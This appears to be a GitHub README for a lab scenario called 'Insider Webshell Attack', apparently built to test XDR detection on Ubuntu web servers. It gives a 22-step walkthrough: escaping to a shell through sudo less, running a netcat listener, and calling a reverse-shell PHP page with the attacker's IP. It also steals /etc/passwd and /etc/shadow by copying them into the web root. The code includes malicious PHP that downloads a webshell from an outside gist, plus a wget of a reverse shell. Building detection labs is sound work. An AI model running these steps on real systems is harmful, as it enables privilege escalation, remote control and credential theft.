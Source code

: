 Insider Webshell Attack
=======================

![Attack Design](https://github.com/scottbrumley/images/blob/80c3840e1d0fc3abf76b03de3ab9d68d3ea7fcfc/insider-webshell-attack.png)

The Attack
------------------
>1. Login with magnifier on ubuntu-web-pr
>2. Check Sudo Permissions - sudo -l
>3. Create file - touch lesser.txt
>4. Use less - sudo less lesser.txt
>5. Less Exploit - !/bin/sh
>6. Modify getevil.php with Malicious Code
>7. Web Browser to http://ubuntu-web-pr/getevil.php
>8. Web Browser to http://ubuntu-web-pr/evil.php
>9. From evil.php on ubuntu-web-pr Get Reverse Shell - See Reverse Shell Wget
>10. On Remote Attack Console Box Open NetCat Listeners 
>	- Terminal #1 - nc -nvlp 443
>11. Web Browser Tab #1 to http://ubuntu-web-pr/reverse-shell.php?ip=consoleIP&port=443
>12. On ubuntu-web-pr - whoami
>13. On ubuntu-web-pr - sudo -i
>14. On ubuntu-web-pr - whoami
>15. On ubuntu-web-pr - cp /etc/passwd /var/www/html
>16. On ubuntu-web-pr - cp /etc/shadow /var/www/html
>17. On ubuntu-web-pr - chown apache:apache /var/www/html/shadow
>18. On ubuntu-web-pr - chown apache:apache /var/www/html/passwd
>19. Web Browser to http://ubuntu-web-pr/passwd
>20. Web Browser to http://ubuntu-web-pr/shadow
>21. On ubuntu-web-pr - rm /var/www/html/passwd
>22. On ubuntu-web-pr - rm /var/www/html/shadow


Environment
-----------
**Two Web Servers:** Ubuntu 20.04.1
>VSphere:
>	CPU: 1 
>	Memory: 4 GB
>	Disk: 20 GB
>AWS:
>  t2.micro
>Default Packages Needed: 
>	- cron
>	- rsync
>	- sudo
>	- less
>	Install Apache with PHP on Both Servers:
>	- sudo apt install php libapache2-mod-php
  
**One Attacker Remote Console**
>VSphere:
>	CPU: 1 
>	Memory: 4 GB
>	Disk: 20 GB
>AWS:
>  t2.micro
>Default Packages Needed: 
>	- nc 

** WebBrowser for Attack
>Any Web Browser will do

Build Environment (Requires Ansible)
-----------------
-Stand Up the Three Ubuntu Servers
-Edit the aws file with the correct Webserver addresses
-Add your AWS Key to the root folder (named: xdr.pem)
-Add your XDR installer to webshell/roles/webserver/files (named: linux-7-4-0.sh)
-Edit webshell/roles/webserver/files/mirror-web-server.sh (change IP to web-dr local IP in AWS)
-ansible-playbook -i aws main.yml

**Attacker Remote**
>Any machine with a webbrowser
  
Code
----
**Good getevil.php**
```<html>
<head>
<title>I'm a Good Web Page</title>
</head>
<body>
I'm a Good Web Page
</body>
</html>
```  
  
** Malicious getevil.php*
```
<html> 
<head> 
<title>I'm a Bad Web Page</title> 
</head> 
<body> 
I'm a Bad Web Page 

<?php // Normal code  echo "Whatsupppp";   
// start of evil code 
$code = file_get_contents("https://gist.githubusercontent.com/joswr1ght/22f40787de19d80d110b37fb79ac3985/raw/9377612eeea89aed2b226a870e76ac12965d6694/easy-simple-php-webshell.php"); 
$myfile = fopen("evil.php", "w+") or die("Unable to open file!");   
fwrite($myfile, $code);  
fclose($myfile);  
// end of evil code  ?>
</body> 
</html>  
```  

**Download Reverse Shell**
```
wget https://gist.githubusercontent.com/scottbrumley/cd76c1e61e168a5a4e8c7251fa8e8c82/raw/224af483fd976654c29f1eed9242a233437a6dad/reverse-shell.php
```  
  
